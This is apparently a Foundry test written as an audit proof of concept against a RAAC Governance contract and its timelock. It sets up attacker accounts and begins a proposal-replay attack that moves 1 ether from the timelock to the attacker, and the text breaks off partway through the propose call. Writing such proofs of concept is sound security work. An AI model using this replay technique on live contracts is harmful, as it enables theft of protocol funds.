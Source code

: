 ```solidity 
contract GovernanceTest is Test {
    Governance public governance;
    TimelockController public timelock;
    veRAACToken public veToken;
    MockRAACToken public raacToken;
​
    address public admin = address(this);
    address public attacker = makeAddr("attacker");
    address[] public attackerAccounts;
    uint256 constant NUM_ACCOUNTS = 5;
​
    function setUp() public {
        raacToken = new MockRAACToken();
        veToken = new veRAACToken(address(raacToken));
        
        address[] memory proposers = new address[](1);
        address[] memory executors = new address[](1);
        proposers[0] = admin;
        executors[0] = admin;
        
        timelock = new TimelockController(2 days, proposers, executors, admin);
        governance = new Governance(address(veToken), address(timelock));
​
        timelock.grantRole(timelock.PROPOSER_ROLE(), address(governance));
        timelock.grantRole(timelock.EXECUTOR_ROLE(), address(governance));
​
        // Create multiple attacker accounts
        for(uint i = 0; i < NUM_ACCOUNTS; i++) {
            attackerAccounts.push(makeAddr(string.concat("attacker", vm.toString(i))));
            // Give each account enough tokens for their larger lock amount
            uint256 accountTokens = 200_000e18 * (i + 1);
            raacToken.transfer(attackerAccounts[i], accountTokens);
        }
​
        // Give extra tokens to attacker0 for the proposal
        raacToken.transfer(attackerAccounts[0], 500_000e18);
​
        // Label accounts for better trace readability
        vm.label(attackerAccounts[1], "legitimateUser");
        vm.label(attackerAccounts[0], "attacker");
    }
​
    function testGovernanceReplayViaProposalId() public {
        vm.startPrank(attackerAccounts[0]);
        raacToken.approve(address(veToken), 500_000e18);
        veToken.lock(500_000e18, 1460 days);
        vm.deal(address(timelock), 2 ether);
​
        // Setup identical operation parameters
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        
        targets[0] = attackerAccounts[0];
        values[0] = 1 ether;
        calldatas[0] = "";
​
        // Create first proposal - will use proposalId 0 for salt
        uint256 proposalId1 = governance.propose(
            targets,
            values,
            calldatas,
            "First Transfer",
```